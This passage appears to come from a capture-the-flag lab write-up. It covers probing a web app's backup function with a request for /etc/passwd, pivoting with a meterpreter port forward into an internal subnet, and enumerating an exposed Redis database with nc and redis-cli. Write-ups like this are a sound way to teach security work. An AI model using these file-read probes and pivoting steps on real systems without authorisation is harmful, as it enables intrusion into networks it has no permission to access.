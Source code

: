 I can also test out these function in the firefox debug console:

![1532623444474](https://0xdfimages.gitlab.io/img/1532623444474.png)

What about trying to exercise the backup function? Visiting `http://127.0.0.1/8924d0549008565c554f8128cd11fda4/ajax.php?backup=/etc/passwd` eventually has a timeout, which makes sense since the comments said it was not yet implemented:

![1532619153975](https://0xdfimages.gitlab.io/img/1532619153975.png)

This error message does give me the absolute web path, which is the default apache path, `/var/www/html`.

### Database

So I can do some interaction with the database through the website and JavaScript… But I can also interact directly with the Redis database.

Just like with www, I’ll use meterpreter to set up a tunnel into the subnet with www and redis:

```

meterpreter > portfwd add -l 6379 -r 172.19.0.2 -p 6379
[*] Local TCP relay created: :6379 <-> 172.19.0.2:6379

```

I can do basic enumeration with nc:

```

root@kali# nc 127.0.0.1 6379
get hits
$-1
incr hits
:1
get hits
$1
1
incr hits
:2
get hits
$1
2

```

Very cool.

I also installed `redis-cli` for interaction with the db:
1. `git clone http://github.com/antirez/redis.git`
2. `cd redis`
3. `make redis-cli`
4. `ln -s /opt/redis/src/redis-cli /usr/local/bin/redis-cli`

```

root@kali# redis-cli  # by default, connects to localhost 6379
127.0.0.1:6379> incr hits
HISTORY: /root/.rediscli_history
(integer) 1
127.0.0.1:6379> incr hits
HISTORY: /root/.rediscli_history
(integer) 2
127.0.0.1:6379> get hits
HISTORY: /root/.rediscli_history
"2"

```